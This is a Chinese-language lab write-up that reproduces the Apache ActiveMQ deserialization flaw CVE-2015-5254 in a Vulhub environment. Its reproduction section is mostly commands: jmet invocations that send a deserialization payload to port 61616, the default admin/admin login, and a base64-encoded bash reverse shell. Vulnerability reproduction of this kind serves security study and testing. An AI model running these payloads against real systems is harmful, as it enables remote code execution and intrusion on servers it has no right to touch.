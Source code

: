 # Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

```
Apache ActiveMQ 5.13.0之前5.x版本
```

## 环境搭建

### 安装jdk

查看java版本，如果是java 11需要切换到java 8

```
java -version
```

安装java 8，默认安装路径/usr/lib/jvm/java-8-openjdk-amd64

```
sudo apt install openjdk-8-jdk
```

配置环境变量，添加jdk安装路径

```
sudo vim ~/.bashrc

# 在最后一行添加
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
```

### 切换jdk版本

采用update-alternatives命令进行版本切换

 /usr/bin/java和/usr/lib/jvm/java-8-openjdk-amd64/bin/java两个路径一定要和自己的路径吻合

```
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/java-8-openjdk-amd64/bin/java 1070
```

切换jdk

```
sudo update-alternatives --config java
```

![image-20220221132209838](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211324903.png)

再次查看java版本，切换成功

![image-20220221132246597](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211324904.png)

## 漏洞复现

Vulhub搭建及运行漏洞环境：

```

docker-compose up -d
```

下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/awesome_poc**的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/awesome_poc" -Yp ROME 192.168.174.128 61616
```

![image-20220221133654012](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345369.png)

访问 http://192.168.174.128:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列，ID为kali-38087-1645421794512-1:1:1:1:1

默认账号密码：admin/admin

![image-20220221133733242](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345370.png)

点击这个信息触发文件创建，成功执行命令 touch /tmp/awesome_poc

![image-20220221133952983](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345371.png)

![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211324906.png)也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

# 发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.174.128 61616
```

![image-20220221134243490](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345372.png)

查看消息队列，ID为kali-38435-1645422155171-1:1:1:1:1

![image-20220221134313545](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345373.png)

监听9999端口，点击消息队列会触发命令执行，反弹Shell

![image-20220221134508900](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345374.png)

